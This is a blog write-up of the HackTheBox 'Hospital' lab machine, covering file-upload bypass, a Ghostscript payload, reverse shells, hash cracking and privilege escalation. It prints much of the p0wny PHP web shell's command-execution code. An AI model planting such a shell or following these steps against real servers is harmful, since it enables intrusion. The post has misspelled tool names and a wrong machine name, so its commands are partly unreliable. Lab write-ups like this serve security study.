 ```yaml
---
layout: post
title: "Hospital-Windows-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/box-hospital.png
---
```


# Hospital

HackTheBox: Medium

<aside>
💡 Monitored is a windows machine

</aside>

## 1: Enumeration
<br/><br/>
- nmap scanning
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_1.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_2.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_3.png' | relative_url }})
<br/><br/>
We can see 2 http services, go forward the one which allows create an account
<br/><br/>
Testing some allowed extensions, we realise .phar extensions.
There is a  tool called ponyshell, downloaded and change its extensions
<br/><br/>
```php
<?php

$SHELL_CONFIG = array(
    'username' => 'p0wny',
    'hostname' => 'shell',
);

function expandPath($path) {
    if (preg_match("#^(~[a-zA-Z0-9_.-]*)(/.*)?$#", $path, $match)) {
        exec("echo $match[1]", $stdout);
        return $stdout[0] . $match[2];
    }
    return $path;
}

function allFunctionExist($list = array()) {
    foreach ($list as $entry) {
        if (!function_exists($entry)) {
            return false;
        }
    }
    return true;
}

function executeCommand($cmd) {
    $output = '';
    if (function_exists('exec')) {
        exec($cmd, $output);
        $output = implode("\n", $output);
    } else if (function_exists('shell_exec')) {
        $output = shell_exec($cmd);
    } else if (allFunctionExist(array('system', 'ob_start', 'ob_get_contents', 'ob_end_clean'))) {
        ob_start();
        system($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    } else if (allFunctionExist(array('passthru', 'ob_start', 'ob_get_contents', 'ob_end_clean'))) {
        ob_start();
        passthru($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    } else if (allFunctionExist(array('popen', 'feof', 'fread', 'pclose'))) {
        $handle = popen($cmd, 'r');
        while (!feof($handle)) {
            $output .= fread($handle, 4096);
        }
        pclose($handle);
    } else if (allFunctionExist(array('proc_open', 'stream_get_contents', 'proc_close'))) {
        $handle = proc_open($cmd, array(0 => array('pipe', 'r'), 1 => array('pipe', 'w')), $pipes);
        $output = stream_get_contents($pipes[1]);
        proc_close($handle);
    }
    return $output;
}

function isRunningWindows() {
    return stripos(PHP_OS, "WIN") === 0;
}
```
<br/><br/>
We can search with gobuster to search routes 
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_4.png' | relative_url }})
<br/><br/>
## 2: User flag
<br/><br/>
We can use a rev shell and generate estability
<br/><br/>
Using uname -a we can see there is a vulnerable kernel version, download the exploit 
<br/><br/>
- We are root at data → cat /etc/passwd
<br/><br/>
```bash
john hash.txt rockyou.txt
```
<br/><br/>
We’ve got creds in the 443 port interface, there we find a Gohostscript vulnerability
<br/><br/>
Clone the repository and create the payload to injected 
<br/><br/>
1. We send a payload with nc.exe request by email
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_5.png' | relative_url }})
<br/><br/>
1. Once it is on the victim machine we sent another payload with the rev shell
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_6.png' | relative_url }})
<br/><br/>
## 3: Priv esc
<br/><br/>
Start this part where you spawn, theres is a file called ghostscrip.bat lets type it
<br/><br/>
We found some rcpclient creds

<br/><br/>
### rcpclient
<br/><br/>
It has functions of authentication and enumeration of services, getting information about users
<br/><br/>
```bash
rcpclient -u "user" url 
querydispinfo
```
<br/><br/>
We realise that guest user has admin permises so lets go to C:\xampp\htdocs and user ponyshell again wiht a .php ext
<br/><br/>
Machine pwned./!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
